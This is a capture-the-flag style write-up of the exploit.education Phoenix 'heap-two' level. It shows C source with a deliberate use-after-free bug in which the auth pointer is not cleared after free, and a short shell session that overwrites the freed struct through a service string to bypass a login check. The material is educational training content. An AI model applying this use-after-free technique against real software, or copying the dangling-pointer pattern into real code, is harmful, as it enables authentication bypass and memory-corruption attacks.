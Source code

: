 # HEAP TWO


## SOURCE CODE
```c
#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv) {
  char line[128];

  printf("%s\n", BANNER);

  while (1) {
    printf("[ auth = %p, service = %p ]\n", auth, service);

    if (fgets(line, sizeof(line), stdin) == NULL) break;

    if (strncmp(line, "auth ", 5) == 0) {
      auth = malloc(sizeof(struct auth));
      memset(auth, 0, sizeof(struct auth));
      if (strlen(line + 5) < 31) {
        strcpy(auth->name, line + 5);
      }
    }
    if (strncmp(line, "reset", 5) == 0) {
      free(auth);
    }
    if (strncmp(line, "service", 6) == 0) {
      service = strdup(line + 7);
    }
    if (strncmp(line, "login", 5) == 0) {
      if (auth && auth->auth) {
        printf("you have logged in already!\n");
      } else {
        printf("please enter your password\n");
      }
    }
  }
}
```


## STRATEGY
The goal is to set *'auth'* to a value different from zero and get the login. In reset 
the *'auth'* memory is freed but the pointer is not set to NULL. That's a 'use after free' 
vulnerability. To exploit it we have to allocate auth struct first. Then reset it (the 
memory will be freed but the pointer will continue to point at the struct address). Now if 
we call service, the memory will be allocated starting from the same address of auth. If 
we enter a sufficiently long string (with values different from zero), the previous 
*'auth'* will be overwritten. Since the *'auth'* pointer is still available and pointing to 
service, the login will be passed.


## EXPLOIT
```shell
user@phoenix-amd64:/opt/phoenix/i486$ ./heap-two 
Welcome to phoenix/heap-two, brought to you by https://exploit.education
[ auth = 0, service = 0 ]
auth AAA
[ auth = 0x8049af0, service = 0 ]
reset
[ auth = 0x8049af0, service = 0 ]
service AAAAAAAAAAAAAAAAAAAAA
[ auth = 0x8049af0, service = 0x8049af0 ]
login
you have logged in already!
[ auth = 0x8049af0, service = 0x8049af0 ]

```
